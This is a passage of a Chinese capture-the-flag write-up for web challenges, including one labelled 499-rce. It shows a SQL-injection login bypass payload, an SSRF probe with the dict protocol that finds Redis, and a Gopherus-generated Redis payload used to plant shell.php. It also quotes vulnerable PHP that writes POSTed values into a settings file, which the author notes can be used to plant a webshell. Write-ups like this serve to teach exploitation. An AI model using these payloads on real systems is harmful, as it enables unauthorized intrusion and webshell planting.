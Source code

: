 

同上，登录进后台先：

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

看了下源码好像没啥变化呀，尝试497的方法不太行，

又用dict协议测试了一下，发现开了6379

`dict://127.0.0.1:6379`

Gopherus生成payload打一下redis

![](https://i.loli.net/2021/11/20/1WOoAmS8u3ZUahs.png)

然后访问shell.php

会发现原来flag文件名字改了:`flag_bei_ni_fa_xian_le`，所以file:///flag读不到==





## 499-rce

同上，登录进后台先：

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

多了个页面：`平台设置->系统配置`
看下关键部分：

```php
# /index.php?action=../api/admin_settings

if($user){
	$config = unserialize(file_get_contents(__DIR__.'/../config/settings.php'));
	foreach ($_POST as $key => $value) {
		$config[$key]=$value;
	}
	file_put_contents(__DIR__.'/../config/settings.php', serialize($config));
	$ret['msg']='管理员信息修改成功';
	die(json_encode($ret));

}
```

会把`$config`序列化后写到`/config/settings.php`里，这里序列化不影响咱们写马
直接改就行：
